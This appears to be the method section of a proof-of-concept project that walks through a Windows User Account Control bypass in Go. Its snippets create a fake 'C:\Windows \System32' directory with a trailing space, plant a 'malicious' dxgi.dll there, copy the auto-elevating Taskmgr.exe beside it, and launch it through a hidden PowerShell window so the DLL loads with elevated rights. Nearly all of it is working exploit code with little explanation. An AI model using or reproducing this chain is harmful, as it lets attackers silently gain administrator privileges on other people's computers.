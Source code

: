 # Methods

## 1. Setup Mock Directory

The script creates the mock directory path within your drive
```go
cmd := exec.Command("cmd", "md \"\\\\?\\C:\\Windows \\System32\"")
cmd.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
_, err = cmd.Output()
```

## 2. Move Malicious DLL

In this example, it moves the malicious "dxgi.dll" from the current directory to the mock directory
```go
sourcePath := filepath.Join(".", "dxgi.dll")
destinationPath := filepath.Join(mdirPath, "dxgi.dll")
if err := os.Rename(sourcePath, destinationPath); err != nil {
 fmt.Println("Error moving DLL: ", err)
    return
}
```

## 3. Copy Auto-Elevating Executable

This copies your executable from the legitimate System32 directory to your new illegitimate System32 directory
```go
cmd = exec.Command("cmd", "/c", "copy", "C:\\Windows\\System32\\Taskmgr.exe", mdirPath)
cmd.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
output, err := cmd.CombinedOutput()
if err != nil {
 fmt.Println("Error copying Task Manager executable: ", err)
    return
}
```

## 4. Running Task Manager using Powershell

This code runs the executable you moved into your mock directory using powershell
```go
cmd = exec.Command("powershell", "Start-Process 'C:\\Windows \\System32\\Taskmgr.exe'")
cmd.SysProcAttr = &syscall.SysProcAttr{
 HideWindow:    true,
 CreationFlags: syscall.SW_HIDE,
}
err = cmd.Start()
if err != nil {
 fmt.Println("Error running Task Manager:", err)
    return
}
```

## 5. Summary

This proof of concept script demonstrates a method to bypass User Account Control (UAC) in Windows by leveraging the lack of DLL hash checking inside the System32 executables.
